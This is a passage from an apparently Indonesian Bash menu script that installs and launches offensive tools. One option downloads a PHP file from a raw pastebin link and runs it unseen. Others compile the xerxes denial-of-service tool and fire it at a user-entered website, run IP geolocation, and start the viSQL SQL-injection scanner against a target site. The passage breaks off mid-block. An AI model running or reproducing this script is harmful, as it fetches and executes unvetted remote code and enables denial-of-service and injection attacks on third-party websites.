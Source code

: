 
if [ $bro = 56 ] || [ $bro = 56 ]
then
clear
cowsay -f kiss.cow "MrB4J1N64N" | lolcat
figlet "Mr.B4J1N64N" | lolcat
sleep 1
apt install php
apt install curl
curl https://pastebin.com/raw/9BYy1JVc -o jdid.php
mv jdid.php $HOME
cd $HOME
php jdid.php
fi

if [ $bro = 57 ] || [ $bro = 57 ]
then
clear
toilet -f slant --gay "Mr.B4J1N64N"
apt update && apt upgrade
apt install git
apt install clang
git clone https://github.com/zanyarjamal/xerxes
mv xerxes $HOME
cd $HOME/xerxes
clang xerxes.c -o xerxes
clear
read -p "[masukanWebsiteTarget]>" target
./xerxes target 80
fi

if [ $bro = 58 ] || [ $bro = 58 ]
then
clear
figlet "Mr.B4J1N64N" | lolcat
echo "\033[33;1muntuk tutorial kunjungi:" "\033[36;1mhttps://youtu.be/VuCvj-8JIME"
sleep 3
apt install git
apt install python
apt install python2
git clone https://github.com/maldevel/IPGeoLocation.git
mv IPGeoLocation $HOME
cd $HOME/IPGeoLocation
chmod +x ipgeoLocation.py
pip install -r requirements.txt
python ipgeolocation.py -m
read -p "[Masukan IP/website]>" target
python ipgeolocation.py -t target
fi

if [ $bro = 59 ] || [ $bro = 59 ]
then
clear
cowsay -f kiss.cow "MrB4J1N64N" | lolcat
figlet "Mr.B4J1N64N" | lolcat
sleep 1
apt update && apt upgrade
apt install python2
apt install git
git clone https://github.com/blackvkng/viSQL
mv viSQL $HOME
cd $HOME/viSQL
python2 -m pip install -r requirements.txt
python2 viSQL.py
read -p "[Masukan Website Target]>" target